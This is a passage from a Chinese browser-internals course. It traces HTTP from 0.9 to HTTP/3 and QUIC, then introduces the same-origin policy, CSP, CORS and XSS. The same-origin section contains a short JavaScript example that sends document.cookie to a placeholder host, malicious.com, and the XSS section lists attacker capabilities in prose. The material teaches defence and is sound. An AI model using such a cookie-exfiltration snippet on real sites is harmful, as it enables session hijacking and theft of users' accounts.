总的来说，当时的需求很简单，就是用来传输体积很小的 HTML 文件，所以 HTTP/0.9 的实现有以下三个特点。

- 第一个是只有一个请求行，并没有HTTP 请求头和请求体，因为只需要一个请求行就可以完整表达客户端的需求了。
- 第二个是服务器也没有返回头信息，这是因为服务器端并不需要告诉客户端太多信息，只需要返回数据就可以了。
- 第三个是返回的文件内容是以 ASCII 字符流来传输的，因为都是 HTML 格式的文件，所以使用 ASCII 字节码来传输是最合适的。

**被浏览器推动的 HTTP/1.0**

HTTP/0.9 虽然简单，但是已经可以满足当时的需求了。

1994 年底出现了拨号上网服务，同年网景又推出一款浏览器，从此万维网就不局限于学术交流了，而是进入了高速的发展阶段。随之而来的是万维网联盟（W3C）和 HTTP 工作组（HTTP-WG）的创建，它们致力于 HTML 的发展和 HTTP 的改进。

HTTP/0.9 已经不能适用新兴网络的发展，所以这时就需要一个新的协议来支撑新兴网络，这就是 HTTP/1.0 诞生的原因。

首先在浏览器中展示的不单是 HTML 文件了，还包括了 JavaScript、CSS、图片、音频、视频等不同类型的文件。因此**支持多种类型的文件下载是 HTTP/1.0 的一个核心诉求**，而且文件格式不仅仅局限于 ASCII 编码，还有很多其他类型编码的文件。

那么该如何实现多种类型文件的下载呢？

HTTP/0.9 只发送请求行信息，这种简单的交流型形式无疑不能满足传输多种类型文件的需求，为了让客户端和服务器能更深入地交流，HTTP/1.0 引入了**请求头和响应头**，它们都是以为 Key-Value 形式保存的，在 HTTP 发送请求时，会带上请求头信息，服务器返回数据时，会先返回响应头信息。

要支持多种类型的文件，我们就需要解决以下几个问题。

- 首先，浏览器需要知道服务器返回的数据是什么类型的，然后浏览器才能根据不同的数据类型做针对性的处理。
- 其次，由于万维网所支持的应用变得越来越广，所以单个文件的数据量也变得越来越大。为了减轻传输性能，服务器会对数据进行压缩后再传输，所以浏览器需要知道服务器压缩的方法。
- 再次，由于万维网是支持全球范围的，所以需要提供国际化的支持，服务器需要对不同的地区提供不同的语言版本，这就需要浏览器告诉服务器它想要什么语言版本的页面。
- 最后，由于增加了各种不同类型的文件，而每种文件的编码形式又可能不一样，为了能够准确地读取文件，浏览器需要知道文件的编码类型。

基于以上问题，HTTP/1.0 的方案是通过请求头和响应头来进行协商，在发起请求时候会通过 HTTP 请求头告诉服务器它期待服务器返回什么类型的文件、采取什么形式的压缩、提供什么语言的文件以及文件的具体编码。最终发送出来的请求头内容如下：

```http
accept: text/html
accept-encoding: gzip, deflate, br
accept-Charset: ISO-8859-1,utf-8
accept-language: zh-CN,zh
```

服务器接收到浏览器发送过来的请求头信息之后，会根据请求头的信息来准备响应数据。不过有时候会有一些意外情况发生，比如浏览器请求的压缩类型是 gzip，但是服务器不支持 gzip，只支持 br 压缩，那么它会通过响应头中的 content-encoding 字段告诉浏览器最终的压缩类型，也就是说最终浏览器需要根据响应头的信息来处理数据。下面是一段响应头的数据信息：

```http
content-encoding: br
content-type: text/html; charset=UTF-8
```

有了响应头的信息，浏览器就会使用 br 方法来解压文件，再按照 UTF-8 的编码格式来处理原始文件，最后按照 HTML 的方式来解析该文件。这就是 HTTP/1.0 支持多文件的一个基本的处理流程。

HTTP/1.0 除了对多文件提供良好的支持外，还依据当时实际的需求引入了很多其他的特性，这些特性都是通过请求头和响应头来实现的。下面我们来看看新增的几个典型的特性：

- 有的请求服务器可能无法处理，或者处理出错，这时候就需要告诉浏览器服务器最终处理该请求的情况，这就引入了状态码。状态码是通过响应行的方式来通知浏览器的。
- 为了减轻服务器的压力，在 HTTP/1.0 中提供了 Cache 机制，用来缓存已经下载过的数据。
- 服务器需要统计客户端的基础信息，比如 Windows 和 macOS 的用户数量分别是多少，所以 HTTP/1.0 的请求头中还加入了用户代理的字段。

**缝缝补补的 HTTP/1.1**

不过随着技术的继续发展，需求也在不断迭代更新，很快 HTTP/1.0 也不能满足需求了，所以 HTTP/1.1 又在 HTTP/1.0 的基础之上做了大量的更新。接下来我们来看看 HTTP/1.0 遇到了哪些主要的问题，以及 HTTP/1.1 又是如何改进的。

1. 改进持久连接

HTTP/1.0 每进行一次 HTTP 通信，都需要经历建立 TCP 连接、传输 HTTP 数据和断开 TCP 连接三个阶段。

在当时，由于通信的文件比较小，而且每个页面的引用也不多，所以这种传输形式没什么大问题。但是随着浏览器普及，单个页面中的图片文件越来越多，有时候一个页面可能包含了几百个外部引用的资源文件，如果在下载每个文件的时候，都需要经历建立 TCP 连接、传输数据和断开连接这样的步骤，无疑会增加大量无谓的开销。

为了解决这个问题，**HTTP/1.1 中增加了持久连接的方法，它的特点是在一个 TCP 连接上可以传输多个 HTTP 请求，只要浏览器或者服务器没有明确断开连接，那么该 TCP 连接会一直保持**。

持久连接在 HTTP/1.1 中是默认开启的，所以你不需要专门为了持久连接去 HTTP 请求头设置信息，如果你不想要采用持久连接，可以在 HTTP 请求头中加上Connection: close。目前浏览器中对于同一个域名，默认允许同时建立 6 个 TCP 持久连接。

2. 不成熟的 HTTP 管线化

持久连接虽然能减少 TCP 的建立和断开次数，但是它需要等待前面的请求返回之后，才能进行下一次请求。如果 TCP 通道中的某个请求因为某些原因没有及时返回，那么就会阻塞后面的所有请求，这就是著名的**队头阻塞**的问题。

HTTP/1.1 中试图通过管线化的技术来解决队头阻塞的问题。HTTP/1.1 中的管线化是指将多个 HTTP 请求整批提交给服务器的技术，虽然可以整批发送请求，不过服务器依然需要根据请求顺序来回复浏览器的请求。

FireFox、Chrome 都做过管线化的试验，但是由于各种原因，它们最终都放弃了管线化技术。

3. 提供虚拟主机的支持

在 HTTP/1.0 中，每个域名绑定了一个唯一的 IP 地址，因此一个服务器只能支持一个域名。但是随着虚拟主机技术的发展，需要实现在一台物理主机上绑定多个虚拟主机，每个虚拟主机都有自己的单独的域名，这些单独的域名都公用同一个 IP 地址。

因此，HTTP/1.1 的请求头中增加了 Host 字段，用来表示当前的域名地址，这样服务器就可以根据不同的 Host 值做不同的处理。

4. 对动态生成的内容提供了完美支持

在设计 HTTP/1.0 时，需要在响应头中设置完整的数据大小，如 `Content-Length: 901` ，这样浏览器就可以根据设置的数据大小来接收数据。不过随着服务器端的技术发展，很多页面的内容都是动态生成的，因此在传输数据之前并不知道最终的数据大小，这就导致了浏览器不知道何时会接收完所有的文件数据。

HTTP/1.1 通过引入 `Chunk transfer` 机制来解决这个问题，服务器会将数据分割成若干个任意大小的数据块，每个数据块发送时会附上上个数据块的长度，最后使用一个零长度的块作为发送数据完成的标志。这样就提供了对动态内容的支持。

5. 客户端 Cookie、安全机制

除此之外，HTTP/1.1 还引入了客户端 Cookie 机制和安全机制。其中，Cookie 机制我们在《03 | HTTP 请求流程：为什么很多站点第二次打开速度会很快？》这篇文章中介绍过了，而安全机制我们会在后面的安全模块中再做介绍，这里就不赘述了。

综上， HTTP 是浏览器和服务器的通信语言，然后我们从需求演变的角度追溯了 HTTP 的发展史，在诞生之初的 HTTP/0.9 因为需求简单，所以和服务器之间的通信过程也相对简单。

由于万维网的快速崛起，带来了大量新的需求，其中最核心的一个就是需要支持多种类型的文件下载， 为此 HTTP/1.0 中引入了请求头和响应头。在支持多种类型文件下载的基础之上，HTTP/1.0 还提供了 Cache 机制、用户代理、状态码等一些基础信息。

但随着技术和需求的发展，人们对文件传输的速度要求越来越高，故又基于 HTTP/1.0 推出了 HTTP/1.1，增加了持久连接方法来提升连接效率，同时还尝试使用管线化技术提升效率（不过由于各种原因，管线化技术最终被各大厂商放弃了）。除此之外，HTTP/1.1 还引入了 Cookie、虚拟主机的支持、对动态内容的支持等特性。

虽然 HTTP/1.1 在 HTTP/1.0 的基础之上做了大量的优化，但是由于一些效率问题始终很难解决，所以最终还是被 HTTP/2 所取代，这就是我们下一篇文章要介绍的内容了。


<br/>

## 30｜HTTP-2：如何提升网络速度？

我们先分析 HTTP/1.1 存在哪些问题，然后再来分析 HTTP/2 是如何解决这些问题的。

HTTP/1.1 为网络效率做了大量的优化，最核心的有如下三种方式：

- 增加了持久连接；
- 浏览器为每个域名最多同时维护 6 个 TCP 持久连接；
- 使用 CDN 的实现域名分片机制。

通过这些方式就大大提高了页面的下载速度，你可以通过下图来直观感受下：

<br/>

<br/>

在该图中，引入了 CDN，并同时为每个域名维护 6 个连接，这样就大大减轻了整个资源的下载时间。这里我们可以简单计算下：如果使用单个 TCP 的持久连接，下载 100 个资源所花费的时间为 100 * n * RTT；若通过上面的技术，就可以把整个时间缩短为 100 * n * RTT/(6 * CDN 个数)。从这个计算结果来看，我们的页面加载速度变快了不少。

**HTTP/1.1 的主要问题**

虽然 HTTP/1.1 采取了很多优化资源加载速度的策略，也取得了一定的效果，但是 HTTP/1.1对带宽的利用率却并不理想，这也是 HTTP/1.1 的一个核心问题。

**带宽是指每秒最大能发送或者接收的字节数。我们把每秒能发送的最大字节数称为上行带宽，每秒能够接收的最大字节数称为下行带宽。**

之所以说 HTTP/1.1 对带宽的利用率不理想，是因为 HTTP/1.1 很难将带宽用满。比如我们常说的 100M 带宽，实际的下载速度能达到 12.5M/S，而采用 HTTP/1.1 时，也许在加载页面资源时最大只能使用到 2.5M/S，很难将 12.5M 全部用满。

之所以会出现这个问题，主要是由以下三个原因导致的。

**第一个原因，TCP 的慢启动。**

一旦一个 TCP 连接建立之后，就进入了发送数据状态，刚开始 TCP 协议会采用一个非常慢的速度去发送数据，然后慢慢加快发送数据的速度，直到发送数据的速度达到一个理想状态，我们把这个过程称为慢启动。

慢启动是 TCP 为了减少网络拥塞的一种策略，我们是没有办法改变的。

而之所以说慢启动会带来性能问题，是因为页面中常用的一些关键资源文件本来就不大，如 HTML 文件、CSS 文件和 JavaScript 文件，通常这些文件在 TCP 连接建立好之后就要发起请求的，但这个过程是慢启动，所以耗费的时间比正常的时间要多很多，这样就推迟了宝贵的首次渲染页面的时长了。

**第二个原因，同时开启了多条 TCP 连接，那么这些连接会竞争固定的带宽。**

你可以想象一下，系统同时建立了多条 TCP 连接，当带宽充足时，每条连接发送或者接收速度会慢慢向上增加；而一旦带宽不足时，这些 TCP 连接又会减慢发送或者接收的速度。比如一个页面有 200 个文件，使用了 3 个 CDN，那么加载该网页的时候就需要建立 6 * 3，也就是 18 个 TCP 连接来下载资源；在下载过程中，当发现带宽不足的时候，各个 TCP 连接就需要动态减慢接收数据的速度。

这样就会出现一个问题，因为有的 TCP 连接下载的是一些关键资源，如 CSS 文件、JavaScript 文件等，而有的 TCP 连接下载的是图片、视频等普通的资源文件，但是多条 TCP 连接之间又不能协商让哪些关键资源优先下载，这样就有可能影响那些关键资源的下载速度了。

**第三个原因，HTTP/1.1 队头阻塞的问题。**

通过上一篇文章，我们知道在 HTTP/1.1 中使用持久连接时，虽然能公用一个 TCP 管道，但是在一个管道中同一时刻只能处理一个请求，在当前的请求没有结束之前，其他的请求只能处于阻塞状态。这意味着我们不能随意在一个管道中发送请求和接收内容。

这是一个很严重的问题，因为阻塞请求的因素有很多，并且都是一些不确定性的因素，假如有的请求被阻塞了 5 秒，那么后续排队的请求都要延迟等待 5 秒，在这个等待的过程中，带宽、CPU 都被白白浪费了。

在浏览器处理生成页面的过程中，是非常希望能提前接收到数据的，这样就可以对这些数据做预处理操作，比如提前接收到了图片，那么就可以提前进行编解码操作，等到需要使用该图片的时候，就可以直接给出处理后的数据了，这样能让用户感受到整体速度的提升。

但队头阻塞使得这些数据不能并行请求，所以队头阻塞是很不利于浏览器优化的。

**HTTP/2 的多路复用**

前面我们分析了 HTTP/1.1 所存在的一些主要问题：慢启动和 TCP 连接之间相互竞争带宽是由于 TCP 本身的机制导致的，而队头阻塞是由于 HTTP/1.1 的机制导致的。

那么该如何去解决这些问题呢？

虽然 TCP 有问题，但是我们依然没有换掉 TCP 的能力，所以我们就要想办法去规避 TCP 的慢启动和 TCP 连接之间的竞争问题。

基于此，HTTP/2 的思路就是一个域名只使用一个 TCP 长连接来传输数据，这样整个页面资源的下载过程只需要一次慢启动，同时也避免了多个 TCP 连接竞争带宽所带来的问题。

另外，就是队头阻塞的问题，等待请求完成后才能去请求下一个资源，这种方式无疑是最慢的，所以 HTTP/2 需要实现资源的并行请求，也就是任何时候都可以将请求发送给服务器，而并不需要等待其他请求的完成，然后服务器也可以随时返回处理好的请求资源给浏览器。

所以，HTTP/2 的解决方案可以总结为：**一个域名只使用一个 TCP 长连接和消除队头阻塞问题**。可以参考下图：

<br/>

<br/>

该图就是 HTTP/2 最核心、最重要且最具颠覆性的多路复用机制。从图中你会发现每个请求都有一个对应的 ID，如 stream1 表示 index.html 的请求，stream2 表示 foo.css 的请求。这样在浏览器端，就可以随时将请求发送给服务器了。

服务器端接收到这些请求后，会根据自己的喜好来决定优先返回哪些内容，比如服务器可能早就缓存好了 index.html 和 bar.js 的响应头信息，那么当接收到请求的时候就可以立即把 index.html 和 bar.js 的响应头信息返回给浏览器，然后再将 index.html 和 bar.js 的响应体数据返回给浏览器。之所以可以随意发送，是因为每份数据都有对应的 ID，浏览器接收到之后，会筛选出相同 ID 的内容，将其拼接为完整的 HTTP 响应数据。

HTTP/2 使用了多路复用技术，可以将请求分成一帧一帧的数据去传输，这样带来了一个额外的好处，就是当收到一个优先级高的请求时，比如接收到 JavaScript 或者 CSS 关键资源的请求，服务器可以暂停之前的请求来优先处理关键资源的请求。

**多路复用的实现**

现在我们知道为了解决 HTTP/1.1 存在的问题，HTTP/2 采用了多路复用机制，那 HTTP/2 是怎么实现多路复用的呢？你可以先看下面这张图：

<br/>

<br/>

从图中可以看出，HTTP/2 添加了一个二进制分帧层，那我们就结合图来分析下 HTTP/2 的请求和接收过程。

- 首先，浏览器准备好请求数据，包括了请求行、请求头等信息，如果是 POST 方法，那么还要有请求体。
- 这些数据经过二进制分帧层处理之后，会被转换为一个个带有请求 ID 编号的帧，通过协议栈将这些帧发送给服务器。
- 服务器接收到所有帧之后，会将所有相同 ID 的帧合并为一条完整的请求信息。
- 然后服务器处理该条请求，并将处理的响应行、响应头和响应体分别发送至二进制分帧层。
- 同样，二进制分帧层会将这些响应数据转换为一个个带有请求 ID 编号的帧，经过协议栈发送给浏览器。
- 浏览器接收到响应帧之后，会根据 ID 编号将帧的数据提交给对应的请求。

从上面的流程可以看出，通过引入二进制分帧层，就实现了 HTTP 的多路复用技术。

上一篇文章我们介绍过，HTTP 是浏览器和服务器通信的语言，在这里虽然 HTTP/2 引入了二进制分帧层，不过 HTTP/2 的语义和 HTTP/1.1 依然是一样的，也就是说它们通信的语言并没有改变，比如开发者依然可以通过 Accept 请求头告诉服务器希望接收到什么类型的文件，依然可以使用 Cookie 来保持登录状态，依然可以使用 Cache 来缓存本地文件，这些都没有变，**发生改变的只是传输方式**。这一点对开发者来说尤为重要，这意味着我们不需要为 HTTP/2 去重建生态，并且 HTTP/2 推广起来会也相对更轻松了。

**HTTP/2 其他特性**

通过上面的分析，我们知道了多路复用是 HTTP/2 的最核心功能，它能实现资源的并行传输。多路复用技术是建立在二进制分帧层的基础之上。其实基于二进制分帧层，HTTP/2 还附带实现了很多其他功能，下面我们就来简要了解下。

1. 可以设置请求的优先级

我们知道浏览器中有些数据是非常重要的，但是在发送请求时，重要的请求可能会晚于那些不怎么重要的请求，如果服务器按照请求的顺序来回复数据，那么这个重要的数据就有可能推迟很久才能送达浏览器，这对于用户体验来说是非常不友好的。

为了解决这个问题，HTTP/2 提供了请求优先级，可以在发送请求时，标上该请求的优先级，这样服务器接收到请求之后，会优先处理优先级高的请求。

2. 服务器推送

除了设置请求的优先级外，HTTP/2 还可以直接将数据提前推送到浏览器。你可以想象这样一个场景，当用户请求一个 HTML 页面之后，服务器知道该 HTML 页面会引用几个重要的 JavaScript 文件和 CSS 文件，那么在接收到 HTML 请求之后，附带将要使用的 CSS 文件和 JavaScript 文件一并发送给浏览器，这样当浏览器解析完 HTML 文件之后，就能直接拿到需要的 CSS 文件和 JavaScript 文件，这对首次打开页面的速度起到了至关重要的作用。

3. 头部压缩

无论是 HTTP/1.1 还是 HTTP/2，它们都有请求头和响应头，这是浏览器和服务器的通信语言。HTTP/2 对请求头和响应头进行了压缩，你可能觉得一个 HTTP 的头文件没有多大，压不压缩可能关系不大，但你这样想一下，在浏览器发送请求的时候，基本上都是发送 HTTP 请求头，很少有请求体的发送，通常情况下页面也有 100 个左右的资源，如果将这 100 个请求头的数据压缩为原来的 20%，那么传输效率肯定能得到大幅提升。

综上，我们首先分析了影响 HTTP/1.1 效率的三个主要因素：TCP 的慢启动、多条 TCP 连接竞争带宽和队头阻塞。

接下来我们分析了 HTTP/2 是如何采用多路复用机制来解决这些问题的。多路复用是通过在协议栈中添加二进制分帧层来实现的，有了二进制分帧层还能够实现请求的优先级、服务器推送、头部压缩等特性，从而大大提升了文件传输效率。

HTTP/2 协议规范于 2015 年 5 月正式发布，在那之后，该协议已在互联网和万维网上得到了广泛的实现和部署。从目前的情况来看，国内外一些排名靠前的站点基本都实现了 HTTP/2 的部署。使用 HTTP/2 能带来 20%～60% 的效率提升，至于 20% 还是 60% 要看优化的程度。总之，我们也应该与时俱进，放弃 HTTP/1.1 和其性能优化方法，去“拥抱”HTTP/2。


<br/>

## 31｜HTTP-3：甩掉TCP、TLS的包袱，构建高效网络

HTTP/2 的一个核心特性是使用了多路复用技术，因此它可以通过一个 TCP 连接来发送多个 URL 请求。

多路复用技术能充分利用带宽，最大限度规避了 TCP 的慢启动所带来的问题，同时还实现了头部压缩、服务器推送等功能，使得页面资源的传输速度得到了大幅提升。

在 HTTP/1.1 时代，为了提升并行下载效率，浏览器为每个域名维护了 6 个 TCP 连接；而采用 HTTP/2 之后，浏览器只需要为每个域名维护 1 个 TCP 持久连接，同时还解决了 HTTP/1.1 队头阻塞的问题。

不过 HTTP/2 依然存在一些缺陷

1. TCP 的队头阻塞

TCP 连接可以看成是两台计算机之前的一个虚拟管道，计算机的一端将要传输的数据按照顺序放入管道，最终数据会以相同的顺序出现在管道的另外一头。

<br/>

<br/>

通过上图你会发现，从一端发送给另外一端的数据会被拆分为一个个按照顺序排列的数据包，这些数据包通过网络传输到了接收端，接收端再按照顺序将这些数据包组合成原始数据，这样就完成了数据传输。

不过，如果在数据传输的过程中，有一个数据因为网络故障或者其他原因而丢包了，那么整个 TCP 的连接就会处于暂停状态，需要等待丢失的数据包被重新传输过来。你可以把 TCP 连接看成是一个按照顺序传输数据的管道，管道中的任意一个数据丢失了，那之后的数据都需要等待该数据的重新传输。为了直观理解，你可以参考下图：

<br/>

<br/>

我们就把在 TCP 传输过程中，由于单个数据包的丢失而造成的阻塞称为 TCP 上的队头阻塞。

那队头阻塞是怎么影响 HTTP/2 传输的呢？首先我们来看正常情况下 HTTP/2 是怎么传输多路请求的，为了直观理解，你可以参考下图：

<br/>

<br/>

通过该图，我们知道在 HTTP/2 中，多个请求是跑在一个 TCP 管道中的，如果其中任意一路数据流中出现了丢包的情况，那么就会阻塞该 TCP 连接中的所有请求。

这不同于 HTTP/1.1，使用 HTTP/1.1 时，浏览器为每个域名开启了 6 个 TCP 连接，如果其中的 1 个 TCP 连接发生了队头阻塞，那么其他的 5 个连接依然可以继续传输数据。

所以随着丢包率的增加，HTTP/2 的传输效率也会越来越差。有测试数据表明，当系统达到了 2% 的丢包率时，HTTP/1.1 的传输效率反而比 HTTP/2 表现得更好。

2. TCP 建立连接的延时

我们把从浏览器发送一个数据包到服务器，再从服务器返回数据包到浏览器的整个往返时间称为 RTT，RTT 是反映网络性能的一个重要指标。

- 在建立 TCP 连接的时候，需要和服务器进行三次握手来确认连接成功，也就是说需要在消耗完 1.5 个 RTT 之后才能进行数据传输。
- 进行 TLS 连接，TLS 有两个版本——TLS1.2 和 TLS1.3，每个版本建立连接所花的时间不同，大致是需要 1～2 个 RTT，关于 HTTPS 我们到后面到安全模块再做详细介绍。

总之，在传输数据之前，我们需要花掉 3～4 个 RTT。如果浏览器和服务器的物理距离较近，那么 1 个 RTT 的时间可能在 10 毫秒以内，也就是说总共要消耗掉 30～40 毫秒。这个时间也许用户还可以接受，但如果服务器相隔较远，那么 1 个 RTT 就可能需要 100 毫秒以上了，这种情况下整个握手过程需要 300～400 毫秒，这时用户就能明显地感受到“慢”了。

3. TCP 协议僵化

现在我们知道了 TCP 协议存在队头阻塞和建立连接延迟等缺点，那我们是不是可以通过改进 TCP 协议来解决这些问题呢？

答案是：非常困难。之所以这样，主要有两个原因。

第一个是**中间设备的僵化**。要搞清楚什么是中间设备僵化，我们先要弄明白什么是中间设备。我们知道互联网是由多个网络互联的网状结构，为了能够保障互联网的正常工作，我们需要在互联网的各处搭建各种设备，这些设备就被称为中间设备。

这些中间设备有很多种类型，并且每种设备都有自己的目的，这些设备包括了路由器、防火墙、NAT、交换机等。它们通常依赖一些很少升级的软件，这些软件使用了大量的 TCP 特性，这些功能被设置之后就很少更新了。

所以，如果我们在客户端升级了 TCP 协议，但是当新协议的数据包经过这些中间设备时，它们可能不理解包的内容，于是这些数据就会被丢弃掉。这就是中间设备僵化，它是阻碍 TCP 更新的一大障碍。

除了中间设备僵化外，**操作系统**也是导致 TCP 协议僵化的另外一个原因。因为 TCP 协议都是通过操作系统内核来实现的，应用程序只能使用不能修改。通常操作系统的更新都滞后于软件的更新，因此要想自由地更新内核中的 TCP 协议也是非常困难的。

**QUIC 协议**

这些问题都是 TCP 的内部问题，因此要解决这些问题就要优化 TCP 或者“另起炉灶”创造新的协议。由于优化 TCP 协议存在着诸多挑战，所以官方选择了创建新的 QUIC 协议。

QUIC 协议，基于 UDP 实现了类似于 TCP 的多路数据流、传输可靠性等功能。关于 HTTP/2 和 HTTP/3 协议栈的比较，你可以参考下图：

<br/>

<br/>

通过上图我们可以看出，HTTP/3 中的 QUIC 协议集合了以下几点功能。

- 实现了类似 TCP 的流量控制、传输可靠性的功能。虽然 UDP 不提供可靠性的传输，但 QUIC 在 UDP 的基础之上增加了一层来保证数据可靠性传输。它提供了数据包重传、拥塞控制以及其他一些 TCP 中存在的特性。
- 集成了 TLS 加密功能。目前 QUIC 使用的是 TLS1.3，相较于早期版本 TLS1.3 有更多的优点，其中最重要的一点是减少了握手所花费的 RTT 个数。
- 实现了 HTTP/2 中的多路复用功能。和 TCP 不同，QUIC 实现了在同一物理连接上可以有多个独立的逻辑数据流（如下图）。实现了数据流的单独传输，就解决了 TCP 中队头阻塞的问题。
- 实现了快速握手功能。由于 QUIC 是基于 UDP 的，所以 QUIC 可以实现使用 0-RTT 或者 1-RTT 来建立连接，这意味着 QUIC 可以用最快的速度来发送和接收数据，这样可以大大提升首次打开页面的速度。

<br/>

<br/>

HTTP/3 正是基于 QUIC 协议的，你可以把 QUIC 看成是集成了“TCP+HTTP/2 的多路复用 +TLS 等功能”的一套协议。这是集众家所长的一个协议，从协议最底层对 Web 的文件传输做了比较彻底的优化，所以等生态相对成熟时，可以用来打造比现在的 HTTP/2 还更加高效的网络。

虽说这套协议解决了 HTTP/2 中因 TCP 而带来的问题，不过由于是改动了底层协议，所以推广起来还会面临着巨大的挑战。


**HTTP/3 的挑战**

通过上面的分析，我们相信在技术层面，HTTP/3 是个完美的协议。不过要将 HTTP/3 应用到实际环境中依然面临着诸多严峻的挑战，这些挑战主要来自于以下三个方面。

第一，从目前的情况来看，服务器和浏览器端都没有对 HTTP/3 提供比较完整的支持。Chrome 虽然在数年前就开始支持 Google 版本的 QUIC，但是这个版本的 QUIC 和官方的 QUIC 存在着非常大的差异。

第二，部署 HTTP/3 也存在着非常大的问题。因为系统内核对 UDP 的优化远远没有达到 TCP 的优化程度，这也是阻碍 QUIC 的一个重要原因。

第三，中间设备僵化的问题。这些设备对 UDP 的优化程度远远低于 TCP，据统计使用 QUIC 协议时，大约有 3%～7% 的丢包率。

关于 HTTP/3 的未来，我有下面两点判断：

- 从标准制定到实践再到协议优化还需要走很长一段路；
- 因为动了底层协议，所以 HTTP/3 的增长会比较缓慢，这和 HTTP/2 有着本质的区别。

<br>

# 浏览器安全

<br/>

## 32丨同源策略：为什么XMLHttpRequest不能跨域请求资源？

浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全和浏览器系统安全，所以本模块我们就按照这个思路来做介绍。

在没有安全保障的 Web 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全。

这就引出了页面中最基础、最核心的安全策略：同源策

**什么是同源策略**

要了解什么是同源策略，我们得先来看看什么是同源。

如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源。

同源策略主要表现在 DOM、Web 数据和网络这三个层面。

第一个，DOM 层面。同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。

第二个，数据层面。同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。

第三个，网络层面。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。

安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。

本文我们只聊浏览器出让了同源策略的哪些安全性。

1. 页面中可以嵌入第三方资源

我们在文章开头提到过，Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码：

<br/>

<br/>

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。

**CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码**。通过这些手段就可以大大减少 XSS 攻击。

2. 跨域资源共享和跨文档消息机制

默认情况下，如果打开极客邦的官网页面，在官网页面中通过 XMLHttpRequest 或者 Fetch 来请求 InfoQ 中的资源，这时同源策略会阻止其向 InfoQ 发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过 `window.postMessage` 的 JavaScript 接口来和不同源的 DOM 进行通信。

综上，同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

- 页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
- 使用 XMLHttpRequest 和 Fetch 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
- 两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。

<br/>

## 33丨跨站脚本攻击（XSS）：为什么Cookie中有HttpOnly属性？

同源策略可以隔离各个站点之间的 DOM 交互、页面数据和网络通信，虽然严格的同源策略会带来更多的安全，但是也束缚了 Web。

这就需要在安全和自由之间找到一个平衡点，所以我们默认页面中可以引用任意第三方资源，然后又引入 CSP 策略来加以限制；默认 XMLHttpRequest 和 Fetch 不能跨站请求资源，然后又通过 CORS 策略来支持其跨域。

不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 XSS 攻击。

**什么是 XSS 攻击**

XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

最开始的时候，这种攻击是通过跨域来实现的，所以叫“跨域脚本”。但是发展到现在，往 HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今。

当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限。

下面我们就来看看，如果页面被注入了恶意 JavaScript 脚本，恶意脚本都能做哪些事情。

- 可以窃取 Cookie 信息。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
- 可以监听用户行为。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
- 可以通过修改 DOM伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
- 还可以在页面内生成浮窗广告，这些广告会严重地影响用户体验。

总之，如果让页面插入了恶意脚本，那么就相当于把我们页面的隐私数据和行为完全暴露给黑客了。

